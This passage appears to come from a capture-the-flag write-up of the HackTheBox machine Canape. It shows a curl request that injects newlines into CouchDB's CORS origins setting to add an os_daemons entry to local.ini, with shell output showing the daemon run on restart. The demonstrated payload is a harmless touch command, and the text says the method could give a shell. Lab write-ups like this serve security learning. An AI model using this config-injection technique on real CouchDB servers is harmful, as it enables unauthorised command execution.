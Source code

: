 
We can use curl to modify the origins in the `local.ini` file. The
vulnerability here is that if we use curl to put a new origin and then
newlines, we can write additional stuff, including a new header and details.
So we’ll take advantage of the `[os_daemons]` field, and add a process for
CouchDB to try to keep running:

    
    
    www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
    

In the root shell, we can see what changes:

    
    
    root@canape:/home/homer/etc# diff local.ini local.ini.bk
    119,124d118
    <
    < [cors]
    < origins = 0xdf
    <
    < [os_daemons]
    < test_daemon = /usr/bin/touch /tmp/0xdf
    

And yet, the file isn’t there:

    
    
    root@canape:/home/homer/etc# ls /tmp/0xdf
    ls: cannot access '/tmp/0xdf': No such file or directory
    

If we look at the processes running with “couchdb” in the cmdline, we see not
only the line command line that gives us the cookie value we used earlier, but
also `runsrv couchdb`:

    
    
    root@canape:/home/homer/bin# ps aux | grep couch
    root        711  0.0  0.0   4240   696 ?        Ss   14:28   0:00 runsv couchdb
    root        728  0.0  0.0   4384   812 ?        S    14:28   0:00 svlogd -tt /var/log/couchdb
    homer      1785  0.8  3.1 638992 31248 ?        Sl   17:55   0:01 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bi
    n/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
    

If we kill that process, it comes right back (notice the new pid):

    
    
    root@canape:/home/homer/etc# kill 711
    root@canape:/home/homer/etc# ps aux | grep runsrv
    root       2031  0.0  0.0  14224   980 pts/2    S+   18:09   0:00 grep --color=auto runsrv
    

And, on restart, runs the OS_Daemons:

    
    
    root@canape:/home/homer/etc# ls /tmp/0xdf
    /tmp/0xdf
    

This too could get us a shell as homer.

[](/2018/09/15/htb-canape.html)

